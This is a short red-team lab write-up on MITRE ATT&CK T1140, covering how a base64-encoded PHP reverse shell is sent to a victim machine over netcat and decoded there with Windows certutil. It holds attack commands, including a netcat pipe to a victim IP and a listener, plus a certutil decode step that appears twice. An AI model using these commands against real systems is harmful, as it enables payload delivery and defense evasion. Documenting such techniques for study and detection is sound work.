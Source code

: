 ```yaml
---
description: Defense Evasion
---
```


# T1140: Encode/Decode Data with Certutil

In this lab I will transfer a base64 encoded php reverse shell from my attacking machine to the victim machine via netcat and decode the data on the victim system using a native windows binary `certutil`.

## Execution

Preview of the content to be encoded on the attacking system:

![](../../.gitbook/assets/certutil-shellphp.png)

Sending the above shell as a base64 encoded string to the victim system \(victim is listening and waiting for the file with `nc -l 4444 > enc`\):

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```csharp
base64 < shell.php.gif | nc 10.0.0.2 4444
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Once the file is received on the victim, let's check its contents:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/certutil-encoded.png)

Let's decode the data:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
certutil.exe -decode .\enc dec
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Let's have a look at the contents of the file `dec` which now contains the base64 decoded shell:

![](../../.gitbook/assets/certutil-decoded.png)

## References

{% embed url="https://attack.mitre.org/wiki/Technique/T1140" %}

